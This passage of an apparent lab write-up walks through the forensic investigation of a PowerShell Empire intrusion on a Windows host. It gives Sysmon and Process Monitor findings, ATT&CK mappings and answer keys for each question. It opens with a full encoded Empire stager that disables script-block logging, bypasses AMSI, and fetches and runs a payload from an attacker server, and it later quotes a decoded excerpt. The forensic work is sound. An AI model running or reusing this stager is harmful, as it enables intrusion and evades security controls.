APQAwADsAJABiADkAQgBlAFsAJwBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0AWwAnAEUAbgBhAGIAbABlAFMAYwByAGkAcAB0AEIAbABvAGMAawBJAG4AdgBvAGMAYQB0AGkAbwBuAEwAbwBnAGcAaQBuAGcAJwBdAD0AMAB9ACQAdgBBAGwAPQBbAEMATwBMAGwARQBDAHQAaQBPAG4AUwAuAEcARQBuAEUAcgBJAGMALgBEAEkAYwBUAEkAbwBOAEEAUgB5AFsAUwBUAHIAaQBuAEcALABTAHkAUwB0AEUATQAuAE8AQgBqAGUAYwBUAF0AXQA6ADoAbgBFAHcAKAApADsAJABWAGEAbAAuAEEARABEACgAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABWAEEATAAuAEEARABkACgAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcALAAwACkAOwAkAGIAOQBiAEUAWwAnAEgASwBFAFkAXwBMAE8AQwBBAEwAXwBNAEEAQwBIAEkATgBFAFwAUwBvAGYAdAB3AGEAcgBlAFwAUABvAGwAaQBjAGkAZQBzAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAUABvAHcAZQByAFMAaABlAGwAbABcAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQA9ACQAVgBBAGwAfQBFAGwAUwBFAHsAWwBTAEMAUgBpAHAAVABCAGwAbwBjAGsAXQAuACIARwBlAFQARgBpAGUAYABsAGQAIgAoACcAcwBpAGcAbgBhAHQAdQByAGUAcwAnACwAJwBOACcAKwAnAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQAuAFMARQBUAFYAYQBMAHUAZQAoACQAbgBVAEwAbAAsACgATgBlAHcALQBPAEIAagBFAEMAdAAgAEMATwBMAGwAZQBjAHQASQBvAE4AcwAuAEcARQBuAGUAcgBJAEMALgBIAGEAUwBIAFMAZQBUAFsAcwBUAHIASQBuAGcAXQApACkAfQAkAFIAZQBmAD0AWwBSAGUAZgBdAC4AQQBTAFMARQBtAGIAbAB5AC4ARwBlAFQAVAB5AHAAZQAoACcAUwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAJwArACcAVQB0AGkAbABzACcAKQA7ACQAUgBFAGYALgBHAEUAdABGAEkARQBMAEQAKAAnAGEAbQBzAGkASQBuAGkAdABGACcAKwAnAGEAaQBsAGUAZAAnACwAJwBOAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQAuAFMAZQB0AFYAYQBMAFUARQAoACQAbgB1AEwAbAAsACQAVAByAHUARQApADsAfQA7AFsAUwB5AHMAdABFAG0ALgBOAEUAVAAuAFMARQByAFYASQBDAEUAUABvAEkAbgB0AE0AQQBuAEEAZwBlAFIAXQA6ADoARQB4AFAARQBjAFQAMQAwADAAQwBPAG4AVABJAG4AdQBlAD0AMAA7ACQAMgA3AEMARQA9AE4AZQBXAC0ATwBCAEoARQBjAHQAIABTAFkAcwBUAEUAbQAuAE4ARQB0AC4AVwBFAEIAQwBsAEkAZQBOAFQAOwAkAHUAPQAnAE0AbwB6AGkAbABsAGEALwA1AC4AMAAgACgAVwBpAG4AZABvAHcAcwAgAE4AVAAgADYALgAxADsAIABXAE8AVwA2ADQAOwAgAFQAcgBpAGQAZQBuAHQALwA3AC4AMAA7ACAAcgB2ADoAMQAxAC4AMAApACAAbABpAGsAZQAgAEcAZQBjAGsAbwAnADsAJABzAGUAcgA9ACQAKABbAFQARQB4AHQALgBFAE4AQwBvAEQAaQBOAGcAXQA6ADoAVQBOAGkAQwBvAEQAZQAuAEcARQBUAFMAdAByAGkAbgBnACgAWwBDAE8AbgBWAGUAUgB0AF0AOgA6AEYAcgBPAE0AQgBBAHMARQA2ADQAUwBUAHIASQBOAGcAKAAnAGEAQQBCADAAQQBIAFEAQQBjAEEAQQA2AEEAQwA4AEEATAB3AEEAegBBAEQAUQBBAEwAZwBBAHkAQQBEAFEAQQBOAFEAQQB1AEEARABFAEEATQBnAEEANABBAEMANABBAE0AUQBBADIAQQBEAEUAQQBPAGcAQQA1AEEARABBAEEATQBBAEEAeABBAEEAPQA9ACcAKQApACkAOwAkAHQAPQAnAC8AYQBkAG0AaQBuAC8AZwBlAHQALgBwAGgAcAAnADsAJAAyADcAQwBFAC4ASABlAGEAZABFAHIAcwAuAEEARABEACgAJwBVAHMAZQByAC0AQQBnAGUAbgB0ACcALAAkAHUAKQA7ACQAMgA3AEMAZQAuAFAAcgBPAHgAWQA9AFsAUwB5AFMAVABFAG0ALgBOAEUAVAAuAFcARQBCAFIARQBxAFUAZQBzAFQAXQA6ADoARABlAGYAQQBVAGwAdABXAEUAQgBQAFIATwBYAFkAOwAkADIANwBjAGUALgBQAFIATwBYAHkALgBDAHIARQBEAEUATgBUAEkAYQBsAHMAIAA9ACAAWwBTAHkAUwB0AGUAbQAuAE4ARQB0AC4AQwBSAEUAZABFAG4AVABpAEEAbABDAEEAQwBoAEUAXQA6ADoARABFAEYAQQBVAEwAVABOAGUAVAB3AG8AUgBLAEMAcgBFAGQAZQBuAFQAaQBBAEwAUwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJAAyADcAYwBlAC4AUAByAG8AeAB5ADsAJABLAD0AWwBTAHkAcwB0AEUAbQAuAFQAZQBYAFQALgBFAG4AQwBvAEQAaQBOAGcAXQA6ADoAQQBTAEMASQBJAC4ARwBlAFQAQgBZAFQAZQBzACgAJwBhAHcAWABVAEQAawBpAHQAPABvAFYAOQBKAGMAUgBPAEwAewAlAGcAUQAuAHwAMwBuAEgAcQBNAHAAQQAvAGwAJwApADsAJABSAD0AewAkAEQALAAkAEsAPQAkAEEAcgBHAHMAOwAkAFMAPQAwAC4ALgAyADUANQA7ADAALgAuADIANQA1AHwAJQB7ACQASgA9ACgAJABKACsAJABTAFsAJABfAF0AKwAkAEsAWwAkAF8AJQAkAEsALgBDAE8AdQBuAFQAXQApACUAMgA1ADYAOwAkAFMAWwAkAF8AXQAsACQAUwBbACQASgBdAD0AJABTAFsAJABKAF0ALAAkAFMAWwAkAF8AXQB9ADsAJABEAHwAJQB7ACQASQA9ACgAJABJACsAMQApACUAMgA1ADYAOwAkAEgAPQAoACQASAArACQAUwBbACQASQBdACkAJQAyADUANgA7ACQAUwBbACQASQBdACwAJABTAFsAJABIAF0APQAkAFMAWwAkAEgAXQAsACQAUwBbACQASQBdADsAJABfAC0AYgBYAG8AUgAkAFMAWwAoACQAUwBbACQASQBdACsAJABTAFsAJABIAF0AKQAlADIANQA2AF0AfQB9ADsAJAAyADcAQwBFAC4ASABlAGEARABlAHIAcwAuAEEAZABEACgAIgBDAG8AbwBrAGkAZQAiACwAIgBSAGoATQBlAGUAawA9AFoAbQBRAEwASABhAGMATQBCAFgAcgBMAGMAQgArAFYARQBsAHYATABjAHcATwAyADYARQBZAD0AIgApADsAJABEAGEAdABBAD0AJAAyADcAQwBlAC4ARABPAHcAbgBsAG8AQQBkAEQAQQB0AEEAKAAkAFMAZQByACsAJABUACkAOwAkAGkAdgA9ACQARABhAFQAQQBbADAALgAuADMAXQA7ACQARABhAHQAQQA9ACQAZABBAHQAQQBbADQALgAuACQARABhAHQAYQAuAGwARQBOAGcAdABoAF0AOwAtAGoATwBJAE4AWwBDAEgAQQByAFsAXQBdACgAJgAgACQAUgAgACQAZABBAHQAQQAgACgAJABJAFYAKwAkAEsAKQApAHwASQBFAFgA
CurrentDirectory: C:\Users\Administrator\
User: WIN-Q5JJRDM876J\Administrator
LogonGuid: {786593ca-776c-6009-5ea8-030000000000}
LogonId: 0x3A85E
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=6CBCE4A295C163791B60FC23D285E6D84F28EE4C,MD5=7353F60B1739074EB17C5F4DDDEFE239,SHA256=DE96A6E69944335375DC1AC238336066889D9FFC7D73628EF4FE1B1B160AB32C,IMPHASH=741776AACCFC5B71FF59832DCDCACE0F
ParentProcessGuid: {786593ca-24a3-600a-e400-000000000300}
ParentProcessId: 3624
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentCommandLine: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" 
```

Answer: `3088`

### Decode the payload. What is the a visible partial path?

We have already seen this in an earlier question

```powershell
<---snip--->
$27CE=NeW-OBJEct SYsTEm.NEt.WEBClIeNT;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$ser=$([TExt.ENCoDiNg]::UNiCoDe.GETString([COnVeRt]::FrOMBAsE64STrINg('aAB0AHQAcAA6AC8ALwAzADQALgAyADQANQAuADEAMgA4AC4AMQA2ADEAOgA5ADAAMAAxAA==')));
$t='/admin/get.php';
$27CE.HeadErs.ADD('User-Agent',$u);
$27Ce.PrOxY=[SySTEm.NET.WEBREqUesT]::DefAUltWEBPROXY;
<---snip--->
```

Answer: `/admin/get.php`

### This is the default communication profile the agent used to connect to the attack machine. What attack framework was used? What is the name of the variable? (answer, answer)

Googling for `powershell malware /admin/get.php` gives us [this blog post](https://holdmybeersecurity.com/2017/12/05/part-1-intro-to-threat-hunting-with-powershell-empire-windows-event-logs-and-graylog/) that tell use this is likely `Empire`.

Then we Google further for `powershell empire github` to find the [Empire repo](https://github.com/EmpireProject/Empire).

Finally, we search in the repo for `/admin/get.php` and note the only [match in the Wiki](https://github.com/EmpireProject/Empire/wiki/RESTful-API)



**Note** that the accepted order of the answers is **reversed**!

Answer: `DefaultProfile, Empire`

### What other file paths are you likely to find in the logs? (answer, answer)

See the image above.

Answer: `/news.php, /login/process.php`

### What is the MITRE ATT&CK URI for the attack framework?

See [this Empire page](https://attack.mitre.org/software/S0363/).

Answer: `https://attack.mitre.org/software/S0363/`

### What was the FQDN of the attacker machine that the suspicious process connected to?

We can find the answer in **Process Monitor** by disabling all activity other than `Network Activity` and pay attention to `powershell.exe` processes



Answer: `ec2-34-245-128-161.eu-west-1.compute.amazonaws.com`

### What other process connected to the attacker machine?



Answer: `Explorer.exe`

### What is the PID for this process?

Double-click on the event and select the `Process` tab in the `Event properties` window



Answer: `2684`

### What was the path for the first image loaded for the process identified in Q's 19 & 20?

Set an Include-filter for `PID is 2684` and also `Show Process and Thread Activity`



Answer: `C:\Windows\System32\mscoree.dll`

### What Sysmon event was generated between these 2 processes? What is its associated Event ID #? (answer, answer)

These are the Sysmon-events that are generated between processes:

- EID 1: Process Creation
- EID 8: Create Remote Thread
- EID 10: Process Access
- EID 25: Process Tampering

I guessed this was a case of remote thread creation and filtered for EID 8 in the Sysmon log.  
We can then manually browse through the events or search for (`Find...`) `powershell.exe`

```text
CreateRemoteThread detected:
RuleName: -
UtcTime: 2021-01-22 01:07:06.182
SourceProcessGuid: {786593ca-24e9-600a-eb00-000000000300}
SourceProcessId: 3088
SourceImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
TargetProcessGuid: {786593ca-776d-6009-4b00-000000000300}
TargetProcessId: 2684
TargetImage: C:\Windows\explorer.exe
NewThreadId: 4872
StartAddress: 0x00000000027D0000
StartModule: -
StartFunction: -
```

Answer: `CreateRemoteThread, 8`

### What is the UTC time for the first event between these 2 processes?

See above (`UtcTime: 2021-01-22 01:07:06.182`)

Answer: `2021-01-22 01:07:06.182`

### What is the value under Date and Time? (MM/DD/YYYY H:MM:SS [AM/PM])



**Note** that the time-stamps in **Event Viewer** are local times!

Answer: `1/21/2021 5:07:06 PM`

### What is the first operation listed by the 2nd process starting with the Date and Time from Q25?

Make sure all activity types are shown and scroll to the timestamp in question.



**Note** the answer below assumes you are still filtering for PID 2684. Otherwise the answer is `WriteFile`.

Answer: `Thread Create`

### What is the full registry path that was queried by the attacker to get information about the victim?

Hint: Try searching for ProcMon events beginning with '1/21/2021 5:07'

Set an Include-filter of `Date & Time begins with 1/21/2021 5:07` and Show only Registry Activity.

But there are still LOTS of activity. A good starting point is therefore [this article](https://www.tenforums.com/tutorials/32961-find-windows-10-version-number.html) where we find that the Windows version number can be found in the registry at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ReleaseId`

Set an Include-filter of `Path contains ReleaseId` and we get three events



Answer: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ReleaseID`

### What is the name of the last module in the stack from this event which had a successful result?

Double-click on the middle event with a `SUCCESS` result and then select the `Stack` tab



Answer: `<unknown>`

### Most likely what module within the attack framework was used between the 2 processes?

Looking though the largest of the PowerShell transcript log files in `C:\Users\Administrator\Documents\20210121` we find



Answer: `Invoke-PSInject`

### What is the MITRE ID for this technique?

Searching for `PSInject` on [the Empire ATT&CK page](https://attack.mitre.org/software/S0363/) we find



Answer: `T1055`

For additional information, please see the references below.

## References

- [Autoruns - Homepage](https://learn.microsoft.com/en-us/sysinternals/downloads/autoruns)
- [Base64 - Wikipedia](https://en.wikipedia.org/wiki/Base64)
- [CyberChef - GitHub](https://github.com/gchq/CyberChef)
- [CyberChef - Homepage](https://gchq.github.io/CyberChef/)
- [Empire - GitHub](https://github.com/EmpireProject/Empire)
- [Empire - MITRE ATT&CK](https://attack.mitre.org/software/S0363/)
- [PowerShell - Wikipedia](https://en.wikipedia.org/wiki/PowerShell)
- [Process Injection - MITRE ATT&CK](https://attack.mitre.org/techniques/T1055/)
- [Process Monitor - Homepage](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)
- [reg query - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)
- [Registry Run Keys / Startup Folder - MITRE ATT&CK](https://attack.mitre.org/techniques/T1547/001/)
- [Remote Desktop Protocol - Wikipedia](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol)
- [Sysmon - Homepage](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [Windows Registry - Wikipedia](https://en.wikipedia.org/wiki/Windows_Registry)
- [xfreerdp - Linux manual page](https://linux.die.net/man/1/xfreerdp)
